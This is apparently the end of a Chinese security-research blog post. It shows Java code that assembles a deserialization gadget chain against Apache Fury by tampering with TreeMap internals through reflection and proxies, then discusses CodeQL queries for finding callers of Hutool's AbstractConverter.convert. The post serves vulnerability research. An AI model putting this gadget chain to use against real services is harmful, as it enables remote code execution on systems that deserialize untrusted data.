ObjectCreationFactory test = (ObjectCreationFactory) Proxy.newProxyInstance(ObjectCreationFactory.class.getClassLoader(), new Class[]{ObjectCreationFactory.class}, mapProxy);
ObjectCreationFactory test1 = (ObjectCreationFactory) Proxy.newProxyInstance(ObjectCreationFactory.class.getClassLoader(), new Class[]{ObjectCreationFactory.class}, mapProxy);
TreeMap.put(test,1);
// TreeMap.put(test1,2);
// setFieldValue(TreeMap,"comparator", propertyComparator);
// TreeMap.put(1234,123);
// TreeMap.put(1234,123);
// root = new TreeMap.Entry<>("key", "value", null);
Constructor<?> declaredConstructor = Class.forName("java.util.TreeMap$Entry").getDeclaredConstructors()[0];
declaredConstructor.setAccessible(true);
Object root_test1 = declaredConstructor.newInstance( test1, 2, null);
Field root = TreeMap.getClass().getDeclaredField("root");
root.setAccessible(true);
Object Troot = root.get(TreeMap);
Field left = Troot.getClass().getDeclaredField("right");
left.setAccessible(true);
left.set(Troot, root_test1);
root.set(TreeMap, Troot);
setFieldValue(TreeMap,"size",2);
setFieldValue(TreeMap,"modCount",2);
// TreeMap.put(test1,1232);
// BiMap hashMap = new BiMap(hashMap1);
Fury fury = Fury.builder().withLanguage(Language.JAVA)
.requireClassRegistration(false)
.build();
byte[] serialize = fury.serialize(TreeMap);
Object deserialize = fury.deserialize(serialize);
}
}
差不多就先这样吧
其实我ql最初路走偏了，然后我就像通过call这种向上找（convert那个点），为什么不用tabby呢（我找出来很不全），
然后我就去找AbstractConverter#convert会有哪些调用到，但是始终找不全，idea是有16个，tabby8个，ql始终是只有13个。然后去看ql是什么原因导致的。发现有个点位应该被找到的但是结果里面没有（见下图），DateConverter.convert这个点和下面TemporalAccessorConverter这个条件肯定是一样的。DateConverter是继承AbstractConverter<Date>是符合的，不知道为什么找不到，然后找了对应的类NumberWithFormat所有的caller点，也是没DateConverter.convert（感觉是数据库生成节点的问题啊，有大哥懂的，解答下小弟）
import java
from RefType abstractConverter, RefType subclass,Method m,MethodCall mcall
where
(abstractConverter.getQualifiedName().matches("cn.hutool.core.convert.Converter<%") or abstractConverter.getQualifiedName().matches("cn.hutool.core.convert.Converter") )and
subclass.getASupertype*() = abstractConverter
and m.getDeclaringType()=subclass
and m.hasName("convert")
and mcall.getMethod()=m
and (m.getDeclaringType().getQualifiedName().matches("cn.hutool.core.convert.Converter%") or m.getDeclaringType().getQualifiedName().matches("cn.hutool.core.convert.AbstractConverter%"))
select m,m.getDeclaringType(),mcall,mcall.getEnclosingCallable().getDeclaringType()
